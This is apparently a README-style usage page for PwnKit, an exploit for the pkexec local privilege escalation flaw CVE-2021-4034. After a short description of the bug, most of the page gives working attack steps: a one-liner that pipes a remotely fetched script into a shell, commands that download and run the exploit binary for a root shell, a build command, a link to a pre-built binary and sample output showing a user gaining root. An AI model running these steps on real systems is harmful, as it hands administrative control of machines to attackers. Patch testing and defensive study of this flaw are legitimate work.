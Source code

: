 # CVE-2021-4034

CVE-2021-4034 - Pkexec Local Privilege Escalation

A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

## Usage

Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

![PkExec Usage](../assets/images/pkexec-usage.png)

### Manually

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```

![PkExec Manually](../assets/images/pkexec-manual.png)

### Patched

Running the exploit against patched versions will yield the following output.

![PkExec Patched](../assets/images/pkexec-patch.png)

## Building Pwnkit

```bash
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Pre-built below:

- [PwnKit](../assets/files/PwnKit)

## Examples

```bash
unpriv_user@host:~$ id
uid=1338(unpriv_user) gid=1338(unpriv_user) groups=1338(unpriv_user)
unpriv_user@host:~$ ./PwnKit
root@host:~# id
uid=0(root) gid=0(root) groups=0(root),1338(unpriv_user)
```

## References

- [Github.com - Pwnkit](https://github.com/ly4k/PwnKit)
- [Github.com - CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034/)
- [Blog.qualys.com - PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
